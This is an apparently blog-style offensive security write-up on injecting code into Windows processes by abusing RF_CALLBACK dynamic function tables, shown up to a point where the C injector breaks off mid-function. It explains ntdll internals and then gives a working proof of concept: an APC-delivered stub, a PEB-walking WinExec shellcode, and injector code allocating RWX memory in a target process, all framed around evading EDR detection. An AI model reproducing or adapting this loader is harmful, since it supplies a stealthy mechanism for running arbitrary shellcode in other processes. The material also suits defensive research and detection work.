

# Dynamic Function Tables & the RF_CALLBACK (Type 2) Mechanism

On x64 Windows, [stack unwinding for exceptions and SEH is table-driven, not frame-pointer-based](https://learn.microsoft.com/en-us/cpp/build/exception-handling-x64?view=msvc-170). Every function that touches the stack must have a [RUNTIME_FUNCTION](https://learn.microsoft.com/en-us/cpp/build/exception-handling-x64?view=msvc-170#struct-runtime_function) entry (.pdata) describing its prologue/epilogue so the unwinder can walk the stack.

For statically compiled modules, [`RtlLookupFunctionEntry()`](https://learn.microsoft.com/en-us/windows/win32/api/winnt/nf-winnt-rtllookupfunctionentry) finds these tables via the PE's `IMAGE_DIRECTORY_ENTRY_EXCEPTION`. But for JIT-compiled code (CLR, Java, JavaScript engines, dynamically generated stubs), Windows exposes an API to register unwind info at runtime:

- `RtlAddFunctionTable()` - Type 1 (static table in memory)
- `RtlInstallFunctionTableCallback()` - Type 2 (RF_CALLBACK) aka the interesting one
- `RtlAddGrowableFunctionTable()` - Type 3

From [Microslop's own documentation](https://learn.microsoft.com/en-us/cpp/build/exception-handling-x64?view=msvc-170):

> For dynamically generated functions [JIT compilers], the runtime to support these functions must either use RtlInstallFunctionTableCallback or RtlAddFunctionTable to provide this information to the operating system. Failure to do so results in unreliable exception handling and debugging of processes.

Internally these all populate the process-global list `ntdll!RtlpDynamicFunctionTable` (a doubly linked list guarded by `RtlpDynamicFunctionTableLock`, an [SRW lock](https://learn.microsoft.com/en-us/windows/win32/sync/slim-reader-writer--srw--locks)).


<br />

## The `DYNAMIC_FUNCTION_TABLE` Structure

[Microsoft defines](https://learn.microsoft.com/pl-pl/windows/win32/devnotes/dynamic_function_table_type) `DYNAMIC_FUNCTION_TABLE` as:

> The `DYNAMIC_FUNCTION_TABLE` structure is an entry in a linked list which is used by a debugger to discover all of the dynamic function tables in a target process. 

Each node roughly looks like (thank you [ReactOS](https://fossies.org/dox/reactos-0.4.16/struct__DYNAMIC__FUNCTION__TABLE.html)):

```c
typedef struct _DYNAMIC_FUNCTION_TABLE {
    LIST_ENTRY                 Links;
    PRUNTIME_FUNCTION          FunctionTable;   // or NULL for Type 2
    LARGE_INTEGER              TimeStamp;
    ULONG64                    MinimumAddress;
    ULONG64                    MaximumAddress;
    ULONG64                    BaseAddress;
    PGET_RUNTIME_FUNCTION_CALLBACK Callback;    // <-- RF_CALLBACK
    PVOID                      Context;
    PWSTR                      OutOfProcessCallbackDll;
    FUNCTION_TABLE_TYPE        Type;            // RF_SORTED=0, RF_UNSORTED=1, RF_CALLBACK=2
    ULONG                      EntryCount;
} DYNAMIC_FUNCTION_TABLE;
```

For Type 2 (`RF_CALLBACK`), FunctionTable is `NULL` and instead the unwinder must call `Callback(ControlPc, Context)` every time it needs a `RUNTIME_FUNCTION` for an address in `[MinimumAddress, MaximumAddress)`.

Looking into the definition of [`PGET_RUNTIME_FUNCTION_CALLBACK`](https://fossies.org/dox/reactos-0.4.16/rtlsupportapi_8h_source.html#l00056):

```c
typedef PRUNTIME_FUNCTION (CALLBACK *PGET_RUNTIME_FUNCTION_CALLBACK)(DWORD_PTR,PVOID);
```

If this callback function returns `NULL` it means _"no unwind info here"_ - the callback still ran, which is the whole point.

## The Registration API

```c
BOOLEAN RtlInstallFunctionTableCallback(
    DWORD64  TableIdentifier,      // must have low 2 bits set: (base|0x3)
    DWORD64  BaseAddress,
    DWORD    Length,
    PGET_RUNTIME_FUNCTION_CALLBACK Callback,
    PVOID    Context,
    PCWSTR   OutOfProcessCallbackDll  // optional
);
```
That `Callback` pointer is stored as a raw function pointer in the caller's own heap-tracked list inside ntdll. It is not CFG-guarded on the way in, and it lives at a data address (not in a code section).

<div style="display:flex; align-items:center; gap:24px; flex-wrap:wrap;">
  
  <p style="flex:1 1 250px; margin:0;">SUS!</p>
</div>
<br />


_Sidenote: At this point of writing this blog, my friends forced me to buy Skyrim and Cyberpunk. Is it bad that I haven't played any of these? Anyways, moving on._

## The Invocation Path - Where the Callback Fires

The interesting question for injection research is: _"what makes ntdll actually call that function pointer?"_

The chain is:

```
RtlLookupFunctionEntry(ControlPc, &ImageBase, &HistoryTable)
  └─> RtlpLookupDynamicFunctionEntry
        └─> x list
              └─> if node.Type == RF_CALLBACK
                    └─> INVOKES node.Callback(ControlPc, node.Context)
```


Any exception raised by any thread whose PC falls in the registered range: `RtlDispatchException` -> `RtlVirtualUnwind` -> `RtlLookupFunctionEntry`. So the primitive is: _"if I can make the process throw/unwind through an address I own, my callback runs - with the ControlPc and my Context as arguments."_


## The Exception-Driven Trigger

A naive approach would call `RtlLookupFunctionEntry` directly from the injected stub - but that makes the injected code _explicitly_ invoke a function-table API, which is unusual for non-JIT code and trivially detectable.

The cleaner design: **don't call `RtlLookupFunctionEntry` at all.** Instead, trigger an exception at an address within the registered range. The OS exception dispatcher (`KiUserExceptionDispatcher` -> `RtlDispatchException`) naturally calls `RtlLookupFunctionEntry` during its stack walk - it's the OS doing the lookup, not our code.

Here's the chain:

1. The APC stub registers our RF_CALLBACK via `RtlInstallFunctionTableCallback`
2. The stub executes **`ud2`** (invalid opcode, 2 bytes: `0F 0B`) - this triggers a `STATUS_ILLEGAL_INSTRUCTION` exception
3. The OS exception dispatcher begins a stack walk, calling `RtlLookupFunctionEntry` for the faulting PC
4. Since the fault PC is within our registered range, **our RF_CALLBACK fires** - it returns a `RUNTIME_FUNCTION` pointing to an `UNWIND_INFO` with an exception handler
5. The dispatcher calls our **exception handler**, which modifies `ContextRecord->Rip` to point past the `ud2` and returns `ExceptionContinueExecution`
6. `NtContinue` resumes execution at the modified RIP - the stub continues with cleanup and shellcode

The callback returns _real_ unwind data - a `RUNTIME_FUNCTION` structure pointing to `UNWIND_INFO` with `UNW_FLAG_EHANDLER`. The exception handler is the mechanism that keeps the target alive: it catches the intentional fault and redirects execution, all through the legitimate x64 structured exception handling framework. The actual shellcode still runs later, in a completely normal context - no calling convention constraints, no unwinder expectations.

## Why Not Just Manually Write the List Entry?

One of the first things I tried was skipping `RtlInstallFunctionTableCallback` entirely and just crafting a fake `DYNAMIC_FUNCTION_TABLE` structure via `WriteProcessMemory`, then splicing it into the doubly-linked list. Sounds reasonable, right?

It doesn't work. And the reason is that `RtlLookupFunctionEntry` does **not** walk the linked list to find matching entries. Internally (observed via reverse engineering of ntdll), `RtlpLookupDynamicFunctionEntry` searches **four AVL trees** - two pairs, one for callback-type entries and one for function-table entries, each pair indexed by `MinimumAddress` and `MaximumAddress` respectively (`RtlpDynamicCallbackTableTreeMin/Max`, `RtlpDynamicFunctionTableTreeMin/Max`). The linked list is there for debugger enumeration (and `RtlDeleteFunctionTable`), but the hot lookup path goes through the AVL trees exclusively.

So writing a list node alone leaves the AVL trees completely unaware of your entry. The lookup never finds it. And correctly inserting into the AVL trees would require balancing, parent-pointer updates, and acquiring the SRW lock - basically reimplementing half of ntdll's internals via `WriteProcessMemory`. Not fun. Just call the API.

## Injection Design

An earlier version of this PoC used `CreateRemoteThread` to run the stub - but that defeats the purpose. `VirtualAllocEx` + `WriteProcessMemory` + `CreateRemoteThread` is the same detection surface as every other injection technique. EDRs already flag that pattern in their sleep.

Instead, we deliver the stub via **`QueueUserAPC`**. No new thread is created. The stub runs on an existing thread in the target when it enters an alertable wait. The `PAPCFUNC` callback takes a single `ULONG_PTR` parameter in RCX - same register, same position as our setup data pointer, so the stub code is identical.

The full injection flow:



A few things worth noting:

- **No `CreateRemoteThread`.** The APC runs on an existing thread - no new thread is created in the target. This avoids one of the most heavily monitored injection indicators.
- **ntdll API addresses are the same in every process** (per-boot ASLR randomizes the base, but all processes load the same ntdll). We only need to resolve `RtlInstallFunctionTableCallback` and `RtlDeleteFunctionTable` locally and pass the addresses to the target. **`RtlLookupFunctionEntry` is never called by our code** - the OS calls it internally during exception dispatch.
- The `TableIdentifier` must have the low 2 bits set (`base | 0x3`) - this is how ntdll distinguishes callback-based entries from pointer-based ones.
- We trigger the callback via `ud2` - an intentional invalid opcode exception. The OS exception dispatcher walks the stack, calling `RtlLookupFunctionEntry` for the faulting PC. Since the fault is within our registered range, our RF_CALLBACK fires. It returns a `RUNTIME_FUNCTION` pointing to `UNWIND_INFO` with `UNW_FLAG_EHANDLER`, whose exception handler redirects execution past the fault.
- We clean up after ourselves with `RtlDeleteFunctionTable`. The dynamic function table entry is **transient** - it exists only between the Install and Delete calls.
- **APCs are queued to all threads.** If multiple threads enter alertable waits, the stub runs more than once - multiple calc windows, repeated Install/Delete cycles. For a PoC this is fine; a weaponized version would target a single thread or guard with an interlocked status byte.
- Since there's no thread handle to wait on, we **poll the status byte** via `ReadProcessMemory` to track progress.

## Payload Memory Layout

The payload buffer we write into the target has a fixed layout:

```
+0x000  APC STUB (110 bytes)
        Delivered via QueueUserAPC.
        RCX = pointer to SetupData at +0x200.
        1. Calls RtlInstallFunctionTableCallback
        2. Executes ud2 at offset 0x3E (triggers exception)
           -> OS dispatcher calls RtlLookupFunctionEntry -> RF_CALLBACK
           -> Exception handler redirects RIP to offset 0x40
        3. Calls RtlDeleteFunctionTable (cleanup)
        4. Calls shellcode at +0x400

+0x100  RF_CALLBACK (8 bytes)
        lea rax,[rdx+0x130]; ret. Returns &RUNTIME_FUNCTION.
        Context (rdx) = base, set during Install.

+0x110  EXCEPTION HANDLER (18 bytes)
        Called by RtlDispatchException after the RF_CALLBACK returns
        the RUNTIME_FUNCTION. Gets ImageBase from DispatcherContext,
        sets ContextRecord->Rip = base+0x40, returns 0 (ContinueExecution).

+0x130  RUNTIME_FUNCTION (12 bytes)
        { BeginAddress=0x000, EndAddress=0x100, UnwindData=0x13C }
        Covers the APC stub range. RVAs relative to base.

+0x13C  UNWIND_INFO (8 bytes)
        Version=1, Flags=UNW_FLAG_EHANDLER, 0 codes.
        ExceptionHandler RVA = 0x110.

+0x200  SETUP DATA (24 bytes, 3 QWORDs)
        +0x00: allocBase
        +0x08: RtlInstallFunctionTableCallback address
        +0x10: RtlDeleteFunctionTable address

+0x300  STATUS BYTE (diagnostic)
        0x01=Install, 0x02=Exception, 0x03=Delete, 0x04=Shellcode, 0xFF=done

+0x400  SHELLCODE
```

The status byte at `+0x300` is a diagnostic breadcrumb - the APC stub writes the current stage number before each step, so if the target crashes or hangs, we can read that byte back via `ReadProcessMemory` and know exactly where it died. Status `0x02` means the `ud2` fired but the exception handler didn't redirect execution - a failure in the unwind data or structures.

## The APC Stub

The APC stub is a small x64 shellcode that orchestrates the whole sequence. It's delivered via `QueueUserAPC` and runs when the target thread enters an alertable wait. `PAPCFUNC` receives a single `ULONG_PTR` in `RCX` - we pass a pointer to the setup data, which is exactly the same calling convention as `LPTHREAD_START_ROUTINE`. The machine code is identical either way:

```asm
; Delivered via QueueUserAPC. RCX = &SetupData.
; Stack: push+push+sub 0x48 -> aligned.

    push rbx
    push rdi
    sub  rsp, 0x48

    mov  rbx, rcx               ; setup data ptr
    mov  rdi, [rbx]             ; allocBase

    mov  byte [rdi+0x300], 1    ; status = installing

    ; RtlInstallFunctionTableCallback(
    ;   base|3, base, allocSize, base+0x100, base, NULL)
    ;   Context = base, so the RF_CALLBACK can compute &RUNTIME_FUNCTION
    lea  rcx, [rdi+3]          ; TableIdentifier (low bits = RF_CALLBACK)
    mov  rdx, rdi               ; BaseAddress
    mov  r8d, <allocSize>       ; Length (patched at runtime)
    lea  r9,  [rdi+0x100]      ; RF_CALLBACK address
    mov  [rsp+0x20], rdi        ; Context = base
    xor  rax, rax
    mov  [rsp+0x28], rax        ; OutOfProcessCallbackDll = NULL
    call [rbx+0x08]             ; RtlInstallFunctionTableCallback

    mov  byte [rdi+0x300], 2    ; status = exception trigger

    ; TRIGGER: ud2 at offset 0x3E - within our registered range.
    ; The CPU raises STATUS_ILLEGAL_INSTRUCTION.
    ; KiUserExceptionDispatcher -> RtlDispatchException:
    ;   -> RtlLookupFunctionEntry(fault_PC) -> invokes RF_CALLBACK
    ;   -> RF_CALLBACK returns &RUNTIME_FUNCTION at base+0x130
    ;   -> RUNTIME_FUNCTION -> UNWIND_INFO -> exception handler at +0x110
    ;   -> Handler sets ContextRecord->Rip = base+0x40
    ;   -> Returns ExceptionContinueExecution
    ; NtContinue resumes here ↓
    ud2

    ; === RESUME POINT (offset 0x40) ===

    mov  byte [rdi+0x300], 3    ; status = cleaning up

    ; Cleanup: RtlDeleteFunctionTable(base|3)
    lea  rcx, [rdi+3]
    call [rbx+0x10]

    mov  byte [rdi+0x300], 4    ; status = executing shellcode

    lea  rax, [rdi+0x400]
    call rax                    ; ← SHELLCODE EXECUTION

    mov  byte [rdi+0x300], 0xFF ; status = done

    xor  eax, eax
    add  rsp, 0x48
    pop  rdi
    pop  rbx
    ret
```

The `mov r8d, <allocSize>` immediate gets patched at runtime with the actual allocation size - the injector knows this value only after `VirtualAllocEx` returns.

A nice property of the x64 calling convention: `PAPCFUNC(ULONG_PTR)` and `LPTHREAD_START_ROUTINE(LPVOID)` both pass their single argument in `RCX`. So this same machine code works whether delivered via `QueueUserAPC` or `CreateRemoteThread`.

The RF_CALLBACK returns real unwind data:

```asm
lea  rax, [rdx+0x130]       ; rdx = Context = base -> &RUNTIME_FUNCTION
ret
```

And the exception handler at `+0x110` redirects execution past the `ud2`:

```asm
mov  rax, [r9+0x08]         ; DispatcherContext->ImageBase = base
add  rax, 0x40               ; resume offset (past ud2)
mov  [r8+0xF8], rax          ; ContextRecord->Rip = resume address
xor  eax, eax                ; ExceptionContinueExecution (0)
ret
```

The handler gets `ImageBase` from the `DISPATCHER_CONTEXT` (which the OS passes as the 4th parameter, in `r9`). `ImageBase` is the `BaseAddress` we registered - our allocation base. Adding `0x40` (the offset of the resume point within the APC stub) gives the address to continue at. The handler writes this into `ContextRecord->Rip` (at offset `0xF8` in the x64 `CONTEXT` structure) and returns `0` (`ExceptionContinueExecution`), telling the dispatcher to resume execution at the modified RIP via `NtContinue`.

## The PoC

Here is the full injector. It takes a target PID, builds the payload with an embedded `WinExec("calc.exe")` shellcode, and injects via `QueueUserAPC` to existing threads. No new thread is created in the target.

Build with:

```
cl.exe /nologo /W3 /O2 DynFnTblInjection.c /Fe:dfn_inject.exe /link /SUBSYSTEM:CONSOLE
```

Usage:

```
dfn_inject.exe <target_pid>
```

```c
/*
 * DynFnTblInjection.c - Dynamic Function Table RF_CALLBACK Injection
 *
 * Registers an RF_CALLBACK dynamic function table entry in a remote
 * process via RtlInstallFunctionTableCallback, then triggers a ud2
 * exception. The OS exception dispatcher calls RtlLookupFunctionEntry
 * during its stack walk, invoking our RF_CALLBACK - which returns a
 * RUNTIME_FUNCTION with an exception handler that redirects execution
 * past the fault. Shellcode runs after cleanup.
 *
 * Delivery: QueueUserAPC to existing threads (no CreateRemoteThread).
 *
 * Usage:
 *   dfn_inject.exe <target_pid>
 *
 * Embedded payload: WinExec("calc.exe", 0) via PEB walk + export parsing.
 * Privilege: normal user (no admin/debug)
 */

#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

#pragma comment(lib, "advapi32.lib")

#define TRAMP_OFF   0x000
#define CB_OFF      0x100
#define EH_OFF      0x110
#define RT_OFF      0x130
#define UW_OFF      0x13C
#define SD_OFF      0x200
#define STAT_OFF    0x300
#define SC_OFF      0x400
#define PAGE_ROUND(x) (((x) + 0xFFF) & ~0xFFF)

#define SD_BASE     0x00
#define SD_INSTALL  0x08
#define SD_DELETE   0x10

/* ===== Find threads belonging to a PID ===== */
static int FindThreads(DWORD pid, DWORD* out, int maxOut) {
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (snap == INVALID_HANDLE_VALUE) return 0;
    THREADENTRY32 te = {sizeof(te)};
    int count = 0;
    if (Thread32First(snap, &te)) {
        do {
            if (te.th32OwnerProcessID == pid && count < maxOut)
                out[count++] = te.th32ThreadID;
        } while (Thread32Next(snap, &te));
    }
    CloseHandle(snap);
    return count;
}

/* ===== Embedded shellcode: WinExec("calc.exe", 0) =====
 *
 * PEB walk -> kernel32.dll -> export table -> WinExec
 * Returns cleanly (no ExitProcess), so the APC stub
 * sets the status byte to 0xFF and the target survives.
 */
static const BYTE g_shellcode[] = {
    /* PEB walk: find kernel32.dll base */
    0x48,0x31,0xC9,                         /* xor rcx, rcx              */
    0x65,0x48,0x8B,0x41,0x60,               /* mov rax, gs:[rcx+0x60]    */
    0x48,0x8B,0x40,0x18,                    /* mov rax, [rax+0x18]       */
    0x48,0x8B,0x70,0x20,                    /* mov rsi, [rax+0x20]       */
    0x48,0xAD,                              /* lodsq  ; skip exe         */
    0x48,0x96,                              /* xchg rax, rsi             */
    0x48,0xAD,                              /* lodsq  ; skip ntdll       */
    0x48,0x8B,0x58,0x20,                    /* mov rbx, [rax+0x20]       */
    /* Parse PE export table */
    0x8B,0x53,0x3C,                         /* mov edx, [rbx+0x3C]       */
    0x48,0x01,0xDA,                         /* add rdx, rbx              */
    0x8B,0x92,0x88,0x00,0x00,0x00,          /* mov edx, [rdx+0x88]       */
    0x48,0x01,0xDA,                         /* add rdx, rbx              */
    0x8B,0x72,0x20,                         /* mov esi, [rdx+0x20]       */
    0x48,0x01,0xDE,                         /* add rsi, rbx              */
    0x48,0x31,0xC9,                         /* xor rcx, rcx              */
    /* Find WinExec by name */
    0xFF,0xC1,                              /* inc ecx                   */
    0xAD,                                   /* lodsd                     */
    0x48,0x01,0xD8,                         /* add rax, rbx              */
    0x81,0x38,0x57,0x69,0x6E,0x45,          /* cmp dword [rax], "WinE"   */
    0x75,0xF2,                              /* jne find_loop             */
    /* Resolve WinExec address */
    0x8B,0x72,0x24,                         /* mov esi, [rdx+0x24]       */
    0x48,0x01,0xDE,                         /* add rsi, rbx              */
    0x0F,0xB7,0x4C,0x4E,0xFE,              /* movzx ecx, [rsi+rcx*2-2] */
    0x8B,0x72,0x1C,                         /* mov esi, [rdx+0x1C]       */
    0x48,0x01,0xDE,                         /* add rsi, rbx              */
    0x8B,0x34,0x8E,                         /* mov esi, [rsi+rcx*4]      */
    0x48,0x01,0xDE,                         /* add rsi, rbx ; WinExec    */
    /* Call WinExec("calc.exe", 0) */
    0x48,0x31,0xC9,                         /* xor rcx, rcx              */
    0x51,                                   /* push rcx ; null term      */
    0x48,0xB9,0x63,0x61,0x6C,0x63,          /* movabs rcx, "calc.exe"    */
              0x2E,0x65,0x78,0x65,
    0x51,                                   /* push rcx                  */
    0x48,0x89,0xE1,                         /* mov rcx, rsp              */
    0x48,0x31,0xD2,                         /* xor rdx, rdx              */
    0x48,0x83,0xEC,0x28,                    /* sub rsp, 0x28             */
    0xFF,0xD6,                              /* call rsi                  */
    0x48,0x83,0xC4,0x38,                    /* add rsp, 0x38             */
    0xC3,                                   /* ret                       */
};

/* ===== Build payload into buffer ===== */
static void BuildPayload(BYTE* buf, DWORD allocSize, ULONG_PTR allocBase,
                          ULONG_PTR pInstallCb, ULONG_PTR pDelete,
                          const BYTE* shellcode, DWORD scSize) {
    memset(buf, 0xCC, allocSize);

    /*
     * APC STUB at +0x000  (110 bytes)
     *
     * 1. RtlInstallFunctionTableCallback - registers RF_CALLBACK
     * 2. ud2 - triggers #UD exception at offset 0x3E
     *      OS exception dispatcher walks the stack:
     *        RtlLookupFunctionEntry(fault_PC) -> RF_CALLBACK
     *        RF_CALLBACK returns &RUNTIME_FUNCTION (+0x130)
     *        RUNTIME_FUNCTION points to UNWIND_INFO (+0x13C)
     *        UNWIND_INFO has exception handler (+0x110)
     *        Handler sets ContextRecord->Rip = base+0x40
     *        Returns ExceptionContinueExecution
     *      NtContinue resumes at offset 0x40
     * 3. RtlDeleteFunctionTable - cleanup
     * 4. Calls shellcode at +0x400
     */
    static const BYTE apc_stub[] = {
        0x53,                                   /* push rbx                     */
        0x57,                                   /* push rdi                     */
        0x48, 0x83, 0xEC, 0x48,                 /* sub rsp, 0x48                */

        0x48, 0x8B, 0xD9,                       /* mov rbx, rcx   ; setupData  */
        0x48, 0x8B, 0x3B,                       /* mov rdi, [rbx] ; allocBase  */

        /* status = 1 */
        0xC6, 0x87, 0x00,0x03,0x00,0x00, 0x01,  /* mov byte [rdi+0x300], 1     */

        /* RtlInstallFunctionTableCallback(                                     */
        /*   base|3, base, len, base+0x100, base, NULL)                         */
        0x48, 0x8D, 0x4F, 0x03,                 /* lea rcx, [rdi+3]   ; TblId  */
        0x48, 0x8B, 0xD7,                       /* mov rdx, rdi       ; Base   */
        0x41, 0xB8, 0x00,0x10,0x00,0x00,        /* mov r8d, 0x1000    ; Len    */
        0x4C, 0x8D, 0x8F, 0x00,0x01,0x00,0x00,  /* lea r9, [rdi+0x100]; Cb     */
        0x48, 0x89, 0x7C, 0x24, 0x20,           /* mov [rsp+0x20], rdi ; Ctx=base */
        0x48, 0x33, 0xC0,                       /* xor rax, rax                */
        0x48, 0x89, 0x44, 0x24, 0x28,           /* mov [rsp+0x28], rax ; NULL  */
        0xFF, 0x53, 0x08,                       /* call [rbx+0x08] ; Install   */

        /* status = 2 (exception trigger) */
        0xC6, 0x87, 0x00,0x03,0x00,0x00, 0x02,  /* mov byte [rdi+0x300], 2     */

        /* ud2: triggers #UD at an address within our registered    */
        /* range. OS exception dispatcher walks the stack, calling  */
        /* RtlLookupFunctionEntry -> invokes our RF_CALLBACK.        */
        0x0F, 0x0B,                             /* ud2  (offset 0x3E)           */

        /* === RESUME (offset 0x40) ===                             */
        /* Exception handler at +0x110 redirects RIP here via       */
        /* ContextRecord->Rip. NtContinue resumes execution.        */

        /* status = 3 (cleanup) */
        0xC6, 0x87, 0x00,0x03,0x00,0x00, 0x03,  /* mov byte [rdi+0x300], 3     */

        /* RtlDeleteFunctionTable(base|3) */
        0x48, 0x8D, 0x4F, 0x03,                 /* lea rcx, [rdi+3]            */
        0xFF, 0x53, 0x10,                       /* call [rbx+0x10] ; Delete    */

        /* status = 4 (executing shellcode) */
        0xC6, 0x87, 0x00,0x03,0x00,0x00, 0x04,  /* mov byte [rdi+0x300], 4     */

        /* Call shellcode at base+0x400 */
        0x48, 0x8D, 0x87, 0x00,0x04,0x00,0x00,  /* lea rax, [rdi+0x400]        */
        0xFF, 0xD0,                              /* call rax        ; shellcode */

        /* status = 0xFF (done) */
        0xC6, 0x87, 0x00,0x03,0x00,0x00, 0xFF,  /* mov byte [rdi+0x300], 0xFF  */

        /* epilogue */
        0x33, 0xC0,                             /* xor eax, eax                */
        0x48, 0x83, 0xC4, 0x48,                 /* add rsp, 0x48               */
        0x5F,                                   /* pop rdi                     */
        0x5B,                                   /* pop rbx                     */
        0xC3,                                   /* ret                         */
    };
    memcpy(buf + TRAMP_OFF, apc_stub, sizeof(apc_stub));
    *(UINT32*)(buf + TRAMP_OFF + 28) = allocSize;
    printf("[+] APC stub:   %zu bytes at +0x%X (len=0x%X)\n",
           sizeof(apc_stub), TRAMP_OFF, allocSize);

    /*
     * RF_CALLBACK at +0x100  (8 bytes)
     * Returns pointer to RUNTIME_FUNCTION at base+0x130.
     * Context (rdx) = base, set during RtlInstallFunctionTableCallback.
     */
    static const BYTE callback[] = {
        0x48, 0x8D, 0x82, 0x30,0x01,0x00,0x00,  /* lea rax,[rdx+0x130]         */
        0xC3,                                    /* ret                         */
    };
    memcpy(buf + CB_OFF, callback, sizeof(callback));
    printf("[+] Callback:   %zu bytes at +0x%X\n", sizeof(callback), CB_OFF);

    /*
     * EXCEPTION HANDLER at +0x110  (18 bytes)
     * Called by RtlDispatchException after the RF_CALLBACK returns
     * the RUNTIME_FUNCTION/UNWIND_INFO. Sets ContextRecord->Rip
     * to resume past the ud2, returns ExceptionContinueExecution (0).
     *
     *   rcx = ExceptionRecord    r8  = ContextRecord
     *   rdx = EstablisherFrame   r9  = DispatcherContext
     *
     * DispatcherContext->ImageBase (at [r9+0x08]) == allocBase.
     * ContextRecord->Rip          (at [r8+0xF8]).
     */
    static const BYTE exc_handler[] = {
        0x49, 0x8B, 0x41, 0x08,                 /* mov rax,[r9+0x08] ; ImageBase */
        0x48, 0x83, 0xC0, 0x40,                 /* add rax, 0x40     ; resume   */
        0x49, 0x89, 0x80, 0xF8,0x00,0x00,0x00,  /* mov [r8+0xF8],rax ; Rip      */
        0x33, 0xC0,                             /* xor eax,eax ; ContinueExec  */
        0xC3,                                    /* ret                         */
    };
    memcpy(buf + EH_OFF, exc_handler, sizeof(exc_handler));
    printf("[+] ExcHandler: %zu bytes at +0x%X\n", sizeof(exc_handler), EH_OFF);

    /*
     * RUNTIME_FUNCTION at +0x130  (12 bytes)
     * Covers the APC stub range (0x000–0x100). All RVAs relative
     * to ImageBase (= allocBase, the BaseAddress we registered).
     */
    BYTE rt[12] = {0};
    *(DWORD*)(rt + 0) = 0x000;    /* BeginAddress */
    *(DWORD*)(rt + 4) = 0x100;    /* EndAddress   */
    *(DWORD*)(rt + 8) = UW_OFF;   /* UnwindData   */
    memcpy(buf + RT_OFF, rt, sizeof(rt));

    /*
     * UNWIND_INFO at +0x13C  (8 bytes)
     * Version=1, Flags=UNW_FLAG_EHANDLER (0x01).
     * No unwind codes (CountOfCodes=0).
     * ExceptionHandler RVA = EH_OFF (0x110).
     *
     * Byte 0: (Flags << 3) | Version = (1 << 3) | 1 = 0x09
     */
    BYTE uw[8] = { 0x09, 0x00, 0x00, 0x00 };
    *(DWORD*)(uw + 4) = EH_OFF;   /* ExceptionHandler RVA */
    memcpy(buf + UW_OFF, uw, sizeof(uw));

    /* SetupData at +0x200 (3 QWORDs: base, Install, Delete) */
    BYTE* sd = buf + SD_OFF;
    memset(sd, 0, 0x100);
    *(ULONG_PTR*)(sd + SD_BASE)    = allocBase;
    *(ULONG_PTR*)(sd + SD_INSTALL) = pInstallCb;
    *(ULONG_PTR*)(sd + SD_DELETE)  = pDelete;

    /* Status at +0x300 */
    buf[STAT_OFF] = 0;

    /* Shellcode at +0x400 */
    memcpy(buf + SC_OFF, shellcode, scSize);
    printf("[+] Shellcode:  %lu bytes at +0x%X\n", scSize, SC_OFF);
}

/* ===== Main ===== */
int main(int argc, char** argv) {
    if (argc < 2) {
        printf("Usage: %s <target_pid>\n", argv[0]);
        return 1;
    }

    DWORD targetPid = (DWORD)strtoul(argv[1], NULL, 10);
    if (!targetPid) {
        printf("[-] Invalid PID: %s\n", argv[1]);
        return 1;
    }

    setvbuf(stdout, NULL, _IONBF, 0);
    printf("=== Dynamic Function Table RF_CALLBACK Injection ===\n\n");

    const BYTE*  shellcode = g_shellcode;
    const DWORD  scSize    = sizeof(g_shellcode);
    printf("[+] Shellcode: embedded WinExec calc (%lu bytes)\n", scSize);
    printf("[+] Target PID: %lu\n", targetPid);

    /* Resolve ntdll exports (same address in all processes) */
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    if (!hNtdll) {
        printf("[-] ntdll not found\n"); return 1;
    }

    FARPROC pInstallCb = GetProcAddress(hNtdll,
                             "RtlInstallFunctionTableCallback");
    FARPROC pDelete    = GetProcAddress(hNtdll,
                             "RtlDeleteFunctionTable");

    if (!pInstallCb || !pDelete) {
        printf("[-] Failed to resolve ntdll exports\n");
        return 1;
    }

    printf("[+] RtlInstallFunctionTableCallback: 0x%llX\n",
           (ULONG_PTR)pInstallCb);
    printf("[+] RtlDeleteFunctionTable:          0x%llX\n",
           (ULONG_PTR)pDelete);

    /* Open target */
    HANDLE hProc = OpenProcess(
        PROCESS_VM_WRITE | PROCESS_VM_READ |
        PROCESS_VM_OPERATION | PROCESS_QUERY_INFORMATION,
        FALSE, targetPid);
    if (!hProc) {
        printf("[-] OpenProcess: %lu\n", GetLastError());
        return 1;
    }

    /* Allocate RWX in target */
    DWORD allocSize = PAGE_ROUND(SC_OFF + scSize);
    PVOID remoteMem = VirtualAllocEx(hProc, NULL, allocSize,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!remoteMem) {
        printf("[-] VirtualAllocEx: %lu\n", GetLastError());
        CloseHandle(hProc); return 1;
